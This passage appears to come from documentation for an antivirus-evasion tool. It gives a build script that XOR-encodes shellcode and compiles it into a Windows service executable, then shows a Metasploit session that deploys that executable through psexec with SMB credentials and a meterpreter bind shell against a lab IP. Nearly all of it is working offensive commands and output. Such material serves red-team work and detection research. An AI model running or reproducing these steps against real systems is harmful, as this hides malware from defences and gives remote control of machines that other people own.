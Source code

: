 ```

# generate key file
generate_key preset aabbcc12de input/key_raw.txt

# encode shellcode
encode_payload xor input/sc_raw.txt input/scenc_raw.txt input/key_raw.txt

# array name buf is expected by static_from_file retrieval method
./tools/data_raw_to_c/data_raw_to_c input/scenc_raw.txt input/scenc_c.txt buf

# no command preexec
set_command_source no_data
set_command_exec no_command

# set shellcode source
set_payload_source static_from_file input/scenc_c.txt

# convert generated key from raw to C into array "key"
./tools/data_raw_to_c/data_raw_to_c input/key_raw.txt input/key_c.txt key

# set key source
set_key_source static_from_file input/key_c.txt

# set payload info source
set_payload_info_source no_data

# set decoder
set_decoder xor

# set shellcode binding technique
set_payload_execution_method exec_shellcode

# enable debug printing
enable_debug_print to_file C:/avetdbg.txt

# compile as service
$win32_compiler -o output/service.exe source/avetsvc.c -lws2_32
strip output/service.exe

# cleanup
cleanup_techniques
```

And on the metasploit side:
```
msf exploit(psexec) > use exploit/windows/smb/psexec
msf exploit(psexec) > set EXE::custom /root/tools/ave/pwn.exe
EXE::custom => /root/tools/ave/pwn.exe
msf exploit(psexec) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(psexec) > set rhost 192.168.116.183
rhost => 192.168.116.183
msf exploit(psexec) > set smbuser dax
smbuser => dax
msf exploit(psexec) > set smbpass test123
smbpass => test123
msf exploit(psexec) > set lport 8443
lport => 8443
msf exploit(psexec) > run

[*] 192.168.116.183:445 - Connecting to the server...
[*] Started bind handler
[*] 192.168.116.183:445 - Authenticating to 192.168.116.183:445 as user 'dax'...
[*] Sending stage (957487 bytes) to 192.168.116.183
```